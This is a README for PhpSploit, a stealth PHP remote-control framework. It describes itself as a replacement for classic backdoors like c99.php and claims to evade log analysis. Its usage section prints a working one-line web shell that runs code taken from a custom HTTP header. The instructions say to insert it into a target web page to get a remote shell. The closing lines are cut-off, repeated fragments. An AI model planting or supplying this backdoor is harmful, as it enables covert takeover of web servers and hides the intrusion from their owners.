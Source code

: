 # PhpSploit: A stealth PHP remote control framework for experts #

### Overview ###

The PhpSploit framework replaces classic PHP backdoor like "c99.php".

    - Ultra small Backdoor (~ 50 chars)
    - Nearly invisible by log analysis
    - Bypass PHP servers wich disables remote execution.
    - Supports GET and POST, independently from the backdoor.

### Example usage ###
**phpspoit >** infect

**[*]** The following payload must be inserted in the target web page.
**[*]** Then adjust the TARGET setting to it in order to start the remote shell

==========================================
<?php @eval($_SERVER['HTTP_PHPSPL01T']);?>
==========================================

**__phpsploit__** **>**
**__phpsploit__ >**

### Advanced Features ###

Very easy to get started, it is also highly configurable, and is designed
to meet all the needs to web security experts.

* Advanced tunnel based payload execution:


    - Uses advanced HTTP Headers filling methods.
    - Provides multi-paradygm payload compression.
    - Tu


The PhpSploit framework takes control over a remote PHP web server.
It replaces classic 

Phpsploit simulates a remote shell access through PHP.

It's first design
